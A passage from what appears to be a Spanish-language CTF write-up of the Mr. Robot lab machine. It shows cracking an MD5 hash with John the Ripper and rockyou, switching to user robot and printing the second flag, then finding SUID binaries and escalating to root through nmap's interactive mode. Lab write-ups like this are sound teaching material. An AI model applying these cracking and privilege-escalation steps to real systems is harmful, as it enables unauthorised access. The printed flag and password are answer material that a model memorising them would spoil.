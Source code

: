 Mediante el programa **John the ripper** se rompe la contraseña facilmente, obteniendo **abcdefghijklmnopqrstuvwxyz**.

~~~console
john --format=raw-md5 --wordlist=/home/s3cureroy/DICCIONARIOS/rockyou.txt hashrobot.hash

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status

abcdefghijklmnopqrstuvwxyz (robot)

1g 0:00:00:00 DONE (2021-03-28 15:12) 12.50g/s 506400p/s 506400c/s 506400C/s boogieman..1234123
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
~~~


Usando el método de [Ironhackers](https://ironhackers.es/en/tutoriales/como-conseguir-tty-totalmente-interactiva/) para obtener una shell completa, ya que la obtenida en una primera instancia no permite usar el comando ```su``` para cambiar el usuario, se puede cambiar al usuario **robot**.

Se consigue, por tanto, la segunda flag (**822c73956184f694993bede3eb39f959**) del fichero que pertenecía al mencionado usuario **robot**.

~~~console
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
~~~

## Escalada de privilegios. 

Para obtener la última clave, se intuye que se debe escalar los privilegios al usuario root de la máquina.

Por tanto, se comienza a recoger información para obtener una posible vía para llegar a ser root.

Mediante el comando ```find``` se buscan los comandos que sean explotables mediante el bit SUID, detectando que **nmap** es uno de los presentes en la máquina.

> El comando usado es ```find / -perm -u=s -type f 2>/dev/null``` visto ya en algún post anterior del blog.
{: .prompt-tip}

~~~console
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
~~~

Buscando en el listado de **LOLBins** de la web [GTFObins](https://gtfobins.github.io/gtfobins/nmap/), se verifica, que nmap puede llamar a una shell interactiva.

Si se ejecuta con el bit SUID activado, y el binario pertenece al usuario root, es como si el propio root lo ejecutase.

~~~console
robot@linux:/tmp$ nmap --interactive
~~~
